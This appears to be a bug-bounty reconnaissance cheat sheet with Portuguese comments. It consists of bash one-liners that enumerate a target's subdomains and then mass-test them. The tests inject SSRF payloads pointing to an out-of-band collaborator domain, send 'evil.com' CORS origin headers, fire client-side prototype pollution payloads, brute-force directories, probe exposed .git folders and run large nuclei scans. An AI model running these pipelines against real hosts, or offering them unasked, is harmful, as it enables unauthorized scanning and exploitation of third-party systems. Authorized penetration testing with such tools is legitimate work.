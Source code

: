 ### SSRF

```bash
# Substitui valores de parâmetros por um domínio colaborador
findomain -t target.com -q | httpx -silent | gau | grep "=" | \
qsreplace "http://<colab-id>.oast.site"
```

### CORS

```bash
assetfinder -subs-only target.com | httpx -silent | \
rush -j200 'curl -sk -I -H "Origin: http://evil.com" {} | grep -qi "Access-Control-Allow-Origin: http://evil.com" && echo "[CORS] {}"'
```

### Prototype Pollution (Client-side)

```bash
cat alive.txt | awk '{print $1"/?__proto__[pwn]=poc"}' | \
page-fetch --javascript 'window.pwn==="poc" ? "[VULN]" : ""' | grep VULN
```

### Bruteforce de Diretórios

```bash
# ffuf multi-host + paths
ffuf -w <(awk '{print $1}' alive.txt):DOMAIN -w paths.txt:PATH -u DOMAIN/PATH -t 100 -mc 200,204,301,302,403 -fs 0
```

### Exposição de .git

```bash
sed 's/$/\/.git\/HEAD/' subs.txt | httpx -silent -status-code -mc 200,301,302 -threads 300 -location
```

### Shodan / ASN / DNS Passivo

```bash
# Shodan -> httpx -> nuclei
shodan search 'hostname:"target.com"' --fields ip_str,port | sed 's/ /:/' > shodan_hosts.txt
httpx -l shodan_hosts.txt -silent | nuclei -severity high,critical -o shodan_nuclei.txt

# ASN -> IPs -> Reverse DNS
echo "ORG NAME" | metabigor net --org -v | awk '{print $3}' | \
xargs -I@ sh -c 'prips @ | hakrevdns -r 1.1.1.1' | awk '{print $2}' | sed 's/\.$//' | anew rev_hosts.txt
```

### Mass Scan com Nuclei

```bash
# Atualize templates antes
nuclei -update
httpx -l resolved.txt -silent -threads 200 -o live_urls.txt
nuclei -l live_urls.txt -severity low,medium,high,critical -c 100 -o nuclei_report.txt
```
